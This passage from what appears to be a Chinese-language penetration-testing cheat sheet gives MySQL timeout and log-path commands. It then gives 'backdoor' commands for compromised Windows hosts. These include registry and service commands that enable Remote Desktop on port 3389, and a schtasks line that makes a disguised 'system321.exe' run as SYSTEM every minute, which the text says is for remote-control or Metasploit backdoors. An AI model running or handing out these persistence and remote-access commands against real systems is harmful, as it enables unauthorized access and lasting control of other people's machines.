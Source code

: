 




-返回2013错误设置timeout变量值
```
set GLOBAL interactive_timeout=2880000;

set GLOBAL wait_timeout=2880000;

set global connect_timeout=60;
```
-查看WEB目录日志的绝对路径
```
mysql>show variables like "%general%";
```

## 命令及后门相关
> **后门命令及常用渗透命令** 

### 开3389
```
sc config termservice start= auto
net start termservice
允许外连
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x0 /f 
-------------------------------------------
echo Windows Registry Editor Version 5.00>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg 
echo "fDenyTSConnections"=dword:00000000>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg
之后执行
regedit /s 3389.reg
```

### 运行计划任务
```
使用administrator创建以system用户身份运行程序的计划任务，可以运行如远控或msf后门等
命令： 
schtasks /create /tn "system" /tr C:\Windows\system321.exe\system321.exe /sc MINUTE /mo 1  /ru "System" /RL HIGHEST

参数说明： 
/create #创建任务 
/tn "system"     #指定任务名称为system 
/tr C:\Windows\system321.exe\system321.exe     #指定程序路径 
/sc MINUTE /mo 1     #指定类型；MINUTE表示任务每n分钟运行一次，/mo 1表示每1分钟执行一次
/ru "System"     #指定为system用户运行该任务 
/RL HIGHEST     #运行级别，HIGHEST为使用最高权限运行
```
